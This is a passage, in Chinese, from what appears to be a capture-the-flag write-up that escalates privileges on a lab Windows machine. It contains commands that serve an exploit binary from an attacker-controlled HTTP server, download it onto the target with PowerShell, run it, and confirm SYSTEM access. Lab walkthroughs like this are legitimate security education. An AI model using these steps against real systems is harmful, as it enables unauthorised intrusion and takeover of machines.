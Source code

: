 我建立了另一个 python 服务器——我杀死了前一个。

```
python -m SimpleHTTPServer 80
```

在另一个窗口，在 Kostas 机器上，我使用 powershell 下载漏洞

```
powershell wget "http://10.10.14.27/41020.exe" -outfile "exploit.exe"
```

然后，我使用

```
exploit.exe
```

![Screenshot-2019-10-08-at-23.24.54](img/c14a7f4aeaf94f7956cbcada0d8a5382.png)

通过检查机器上的我是谁，我可以看到权限提升是成功的

```
whoami
```

它回来了

```
nt authority\system
```

我是管理员

让我们现在找到根旗！我导航到用户并签入到管理员/桌面文件夹。我找到旗子了！
